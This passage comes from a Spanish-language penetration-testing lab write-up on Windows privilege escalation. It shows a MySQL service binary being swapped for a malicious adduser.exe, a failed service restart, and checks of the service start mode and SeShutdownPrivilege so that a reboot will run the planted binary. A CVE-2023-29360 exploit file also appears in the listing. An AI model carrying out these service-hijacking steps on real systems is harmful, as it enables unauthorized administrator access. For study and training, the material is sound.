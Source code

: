 ```
-a----          3/6/2025   8:08 PM         113356 adduser.exe
-a----         6/21/2022  10:06 AM           7168 bind.exe
-a----         8/21/2024   7:01 AM         157184 CVE-2023-29360.exe
```

#### Paso 2: Creamos el usuario dave2
1. Reemplazamos el binario original de mysql con nuestro binario:
```
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
2. Ejecutamos el binario:
> Para ejecutar el binario a través del servicio, debemos reiniciarlo. Podemos utilizar el comando **net stop** para detener el servicio.
```
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```
>Lamentablemente, dave no tiene los permisos suficientes para detener el servicio.
Dado que no tenemos permiso para reiniciar manualmente el servicio, debemos considerar otro enfoque. Si el tipo de inicio del servicio está configurado en **"Automático"**, es posible que podamos reiniciar el servicio reiniciando la máquina.

- Verifcamos el tipo de inicio del servicio:
```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```
>El resultado muestra que el servicio está configurado en Auto, lo que significa que se iniciará automáticamente después de un reinicio. Para poder ejecutar un reinicio, nuestro usuario debe tener asignado el privilegio SeShutDownPrivilege. Podemos usar whoami con /priv para obtener una lista de todos los privilegios

```
PS C:\Users\dave> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege                      Name Description                    State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled

SeShutdownPrivilege           Shut down the system                 Disabled

SeChangeNotifyPrivilege       Bypass traverse checking             Enabled

SeUndockPrivilege             Remove computer from docking station Disabled

SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled

SeTimeZonePrivilege           Change the time zone                 Disabled

```
>El resultado muestra que nuestro usuario tiene el privilegio en cuestión (entre otros) y, por lo tanto, deberíamos poder iniciar un apagado o reinicio del sistema. El estado Deshabilitado solo indica si el privilegio está habilitado actualmente para el proceso en ejecución. En nuestro caso, significa que whoami no ha solicitado y no está utilizando actualmente el privilegio SeShutdownPrivilege
